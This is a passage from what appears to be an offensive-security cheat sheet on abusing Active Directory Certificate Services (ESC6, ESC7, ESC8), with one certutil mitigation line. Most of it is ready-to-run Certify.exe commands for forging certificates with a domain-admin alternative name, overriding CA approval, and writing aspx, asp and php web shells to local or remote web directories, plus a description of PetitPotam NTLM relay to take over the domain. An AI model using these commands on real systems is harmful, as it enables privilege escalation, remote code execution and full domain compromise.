 
Exploitation:

Use Certify.exe to check for UserSpecifiedSAN flag state which refers to the EDITF_ATTRIBUTESUBJECTALTNAME2 flag.
Certify.exe cas
Request a certificate for a template and add an altname, even though the default User template doesn't normally allow to specify alternative names
.\Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:User /altname:DomAdmin
Mitigation:

Remove the flag : certutil.exe -config "CA01.domain.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
ESC7 - Vulnerable Certificate Authority Access Control
Exploitation:

Detect CAs that allow low privileged users the ManageCA or Manage Certificates permissions
Certify.exe find /vulnerable
Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)
Certify.exe setconfig /enablesan /restart
Request the certificate with the desired SAN.
Certify.exe request /template:User /altname:super.adm
Grant approval if required or disable the approval requirement
# Grant
Certify.exe issue /id:[REQUEST ID]
# Disable
Certify.exe setconfig /removeapproval /restart
Alternative exploitation from ManageCA to RCE on ADCS server:

# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
ESC8 - AD CS Relay Attack
An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.
